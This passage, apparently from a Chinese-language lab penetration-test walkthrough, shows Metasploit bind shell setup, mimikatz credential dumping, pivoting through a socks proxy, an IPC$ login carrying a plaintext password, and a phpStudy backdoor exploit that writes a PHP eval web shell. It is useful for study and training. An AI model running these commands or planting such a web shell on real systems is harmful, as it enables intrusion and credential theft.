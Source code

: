 ```
use exploit/multi/handler
set payload windows/meterpreter/bind_tcp
set RHOST 10.10.10.143
set lport 13777
```

![](https://mmbiz.qpic.cn/mmbiz_png/Jvbbfg0s6ADPmHFz2qUd6yribKia4q80Libdq3PWuq8ibmibyQiaolGA78BTLfMBU8tsl6jt9d6esnibictyfbZexKzvPw/640?wx_fmt=png)  

同样 Migrate 迁移进程后，Loadkiwi 加载 mimiatz，kiwi_cmdsekurlsa::logonpasswords 尝试使用其获取明文：

![](https://mmbiz.qpic.cn/mmbiz_png/Jvbbfg0s6ADPmHFz2qUd6yribKia4q80LibGJqsxAVfnOpZPIOibdEF1nuH8Ziay6MALsLJeIQbmibZhjwAaGLQ5gEibA/640?wx_fmt=png)

添加路由：run autoroute -s 10.10.1.0/24

![](https://mmbiz.qpic.cn/mmbiz_png/Jvbbfg0s6ADPmHFz2qUd6yribKia4q80LibW6atBUIANyRYiaicTISh8icrKcTLsYQSFH9Wd6H1DQTibNgbYml13rtmUw/640?wx_fmt=png)

启动 socks 代理，配置 proxychains 配置文件，对 10.10.1.0\24 进行主机发现：

```
use auxiliary/server/socks_proxy
set srvport 33333
run
```

![](https://mmbiz.qpic.cn/mmbiz_png/Jvbbfg0s6ADPmHFz2qUd6yribKia4q80Libz4cDic3iaoMOxgTzXCE30EUNOvt5a7dZzVzoDiaVcg15DFMAW2cUibfpMw/640?wx_fmt=png)  

得到明文和 hash 后我们可以通过 ipc 连接进行横向：

```
net use \\10.10.1.142\ipc$ "!@#QWEasd123."/user:"localhost\administrator”
```

![](https://mmbiz.qpic.cn/mmbiz_png/Jvbbfg0s6ADPmHFz2qUd6yribKia4q80LibOGrBJZANNKKJcWYgaN1uwg9MyrQvRkMsfAiaHatNoibZIHib6BssxsqJQ/640?wx_fmt=png)

使用代理

```
proxychains nmap -sC -A 10.10.1.142 -p80,53,1433,49154,6588,3389,135,21,51464,999
```

进行扫描端口:  

![](https://mmbiz.qpic.cn/mmbiz_png/Jvbbfg0s6ADPmHFz2qUd6yribKia4q80LibdADGKf4ic2ImTIO4y34ULZj3iah7laXy54NINCRWV6fDjiaVD9cWhxLzg/640?wx_fmt=png)

浏览器设置 socks 代理后，查看 10.10.1.142 网站主页，发现其 phpstudy 版本存在后门可以进行利用：

![](https://mmbiz.qpic.cn/mmbiz_png/Jvbbfg0s6ADPmHFz2qUd6yribKia4q80Libf4q4p26nbwYWUVBXpa59qSzqVRda7aePrhqrErWelMjZAfSQadPudQ/640?wx_fmt=png)

Phpstudy 漏洞利用：

```
'echo ^<?php @eval($_POST["shell"])?^>>C:\phpStudy\WWW\shell.php'
```

蚁剑设置 socks 代理为 kali 的 33333 端口，进行连接：

![](https://mmbiz.qpic.cn/mmbiz_png/Jvbbfg0s6ADPmHFz2qUd6yribKia4q80Libuz4rJKmIfCQwOaaIobUTTYrmVrLENKgF1kBG34wVTn7AVyPjMuqaJQ/640?wx_fmt=png)
